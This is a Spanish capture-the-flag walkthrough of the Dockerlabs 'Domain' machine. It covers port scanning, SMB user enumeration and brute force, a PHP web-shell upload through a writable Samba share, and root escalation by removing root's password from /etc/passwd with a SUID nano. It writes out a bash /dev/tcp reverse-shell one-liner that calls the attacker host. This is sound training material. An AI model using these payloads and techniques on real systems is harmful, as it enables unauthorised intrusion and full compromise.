Hola otra vez, vamos a resolver otra máquina de [Dockerlabs](https://dockerlabs.es/#/), en este caso la máquina se llama Domain y está incluida en la categoría media de Dockerlabs de [El Pingüino de Mario](https://www.youtube.com/channel/UCGLfzfKRUsV6BzkrF1kJGsg).



---------------------------------------------------------------------------------------------------------------------------------------------------

Sin más que añadir vamos a ello, como siempre empezaremos por descargar la máquina y realizar su instalación, recordad que funcionan mediante docker por lo que estaremos creando un contenedor en nuestra máquina local en el que se almacenará la máquina víctima.



Empezaremos realizando un ping a la máquina para verificar su correcto funcionamiento, al hacerlo vemos que tiene un TTL de 64, lo que significa que la máquina objetivo usa un sistema operativo Linux.



Como vemos, la máquina funciona correctamente y podemos empezar con el proceso de enumeración de la misma, vamos a ello.

# Enumeración

Lo primero que haremos para enumerar esta máquina será realizar un escaneo básico de puertos para identificar cuáles están abiertos.

```sudo nmap -p- --min-rate 5000 172.17.0.2 -Pn -n -oN escaneo```



Encontramos tres puertos abiertos, vamos a realizar un escaneo más exhaustivo para tratar de enumerar los servicios así como para lanzar ciertos scripts básicos de reconocimiento que nos otorguen más información acerca de los mismos.

``sudo nmap -p 80,139,445 --min-rate 5000 -sCV 172.17.0.2 -Pn -n -oN escaneoSC``



No vemos nada interesante, vamos a aanalizar el puerto 80 de este sistema.



Vemos una página que nos explica lo que es Samba, vamos a fuzzear para localizar directorios y archivos ocultos que no se vean a simple vista.



De momento sólo encontramos la página index.html, mientras esto se lanza vamos a enumerar el puerto 445 del sistema con enum4linux ya que nos puede proporcionar información acerca de usuarios.




¡Genial! Tenemos los nombres de dos de los usuarios disponibles, y vemos que no tenemos permisos para listar los contenidos de los shares sin disponer de credenciales válidas. 

# Explotación

Vamos a usar netexec o crackmapexec para lanzar un ataque de fuerza bruta y tratar de obtener de esta forma un inicio de sesión válido.



Con el usuario james no tenemos suerte pero con el usuario bob conseguimos dar con un inicio de sesión válido, vamos a usarlo para acceder al contenido de los shares.



Vemos que este usuario tiene permisos de escritura en el directorio html, ¿podría ser el directorio que contiene los archivos que encontramos en el puerto 80? Vamos a comprobarlo.



Parece que efectivamente esto es así ya que encontramos el único archivo que encontramos a raíz de nuestro fuzzeo, vamos a introducir un archivo ya que tenemos permisos de escritura y ver si podemos acceder al mismo desde el puerto 80.







Vamos a ver si podemos acceder al mismo.



¡Eso es! Podemos introducir archivos en el servidor web, por lo que podemos subir una reverse shell que nos otorgue una conexión en nuestra máquina atacante, vamos a hacerlo.



Con Wappalyzer vemos que el servidor interpreta el código PHP.







Muy bien, tenemos ejecución remota de código, vamos a enviar una reverse shell a nuestra máquina atacante.





Conseguimos nuestra reverse shell con el payload ``bash -c "bash -i >& /dev/tcp/172.17.0.1/4444 0>&1"`` aunque es importante que antes de usarlo lo urlencodeemos.

# Post-Explotación

Tenemos nuestro primer acceso y estamos listos para enumerar el sistema en busca de potenciales vías de escalada de privilegios. Lo primero que haremos será tratar de iniciar sesión con el usuario bob ya que tenemos unas credenciales válidas.



Efectivamente, somos el usuario bob, vamos a tratar de enumerar los permisos del mismo.



No tenemos el comando sudo instalado en la máquina, vamos a enumerar los binarios con el set SUID activado.



¿SUID en el binario nano? Esto significa que podríamos escribir sobre cualquier archivo, podríamos utilizar esto para modificar el archivo /etc/passwd para eliminar el requerimiento de contraseña del usuario root, vamos a intentarlo.



Parece que la máquina se rompió, suele pasar con nano, vamos a realizar un tratamiento de la tty completo.



Vamos a intentarlo ahora.



Estaba teniendo un problema al estabilizar la shell por rlwrap así que probé con netcat y pude estabilizarla correctamente. Una vez hecho esto tendremos que eliminar la x marcada para que no se nos pida contraseña al cambiar de usuario a root.



Con esto hecho no debería pedirnos contraseña al cambiar a root.



¡Genial! Tenemos una shell como el usuario root y hemos comprometido el sistema por completo pudiendo dar por concluida la máquina. Espero que os haya gustado mucho y nos vemos en la siguiente. :)


